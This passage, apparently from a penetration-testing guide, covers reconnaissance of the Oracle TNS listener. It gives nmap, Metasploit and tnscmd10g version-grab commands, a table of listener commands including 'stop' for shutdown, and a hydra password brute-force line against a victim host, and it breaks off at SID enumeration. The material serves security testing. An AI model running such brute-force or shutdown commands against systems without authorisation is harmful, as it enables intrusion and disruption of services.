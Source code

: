 Tools that can be used for this are: nmap, MSF and [tnscmd10g](https://www.kali.org/tools/tnscmd10g/).

## **TNS listener version**

```bash
nmap --script "oracle-tns-version" -p 1521 -T4 -sV <IP>
msf> use auxiliary/scanner/oracle/tnslsnr_version
#apt install tnscmd10g
tnscmd10g version -p 1521 -h <IP>
```

## Other useful TNS listener commands:

| Command | Purpose |
| --- | --- |
| ping | Ping the listener |
| version | Provide output of the listener version and platform information |
| status | Return the current status and variables used by the listener |
| services | Dump service data |
| debug | Dump debugging information to the listener log |
| reload | Reload the listener configuration file |
| save_config | Write the listener configuration file to a backup location |
| stop | Invoke listener shutdown |

If you receive an error, could be because TNS versions are incompatible (Use the `--10G` parameter with `tnscmd10`) and if the error persist, the listener may be password protected (you can see a list were all the [errors are detailed here](https://docs.oracle.com/database/121/ERRMG/TNS-00000.htm#ERRMG-GUID-D723D931-ECBA-4FA4-BF1B-1F4FE2EEBAD7)) — don't worry… hydra to the rescue:

```bash
hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener
```

The TNS listener could be vulnerable to MitM attacks. [Check here how to check if the server is vulnerable and how to perform the attack (all versions up to version 12c are)](notion://www.notion.so/pentesting/1521-1522-1529-pentesting-oracle-listener/tns-poison).

## SID Enumeration

## What is a SID?

The SID (Service Identifier) is essentially the database name, depending on the install you may have one or more default SIDs, or even a totally custom dba defined SID.

In some old versions (in 9 it works) you could ask for the SID and the database send it to you:

